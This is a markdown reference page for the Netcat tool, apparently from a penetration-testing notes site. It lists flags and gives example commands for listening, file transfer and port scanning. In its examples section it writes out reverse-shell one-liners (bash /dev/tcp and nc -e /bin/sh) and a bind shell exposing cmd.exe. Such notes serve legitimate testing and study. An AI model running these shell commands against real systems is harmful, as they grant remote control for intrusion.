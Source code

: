 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

Netcat, arbitrary TCP and UDP connections and listens.

### Binary for Windows

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

* SHA256 'nc.exe' - `be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b`

## Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

## Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Examples

### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

### Reverse Shell

**Receiver:**

```plain
nc -nlvp 10.10.10.2 4444
```

**Identity connecting and sending the reverse shell:**

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

**OR identity connecting and sending the reverse shell:**

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### Bind Shell

**Receiver:**

```plain
nc -nlvp 4444 -e cmd.exe
```

**Identity connecting to bind shell::**

```plain
nc -nv <ip> 4444
```

### Port Scanning (TCP)

**Note:** NetCat port scanning is based on the three-way handshake.

```plain
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

### Port Scanning (UDP)

```plain
nc -nv -u -z -w 1 10.10.10.20 160-162
```

## URL List

* [Linux.die.net](https://linux.die.net/man/1/nc)
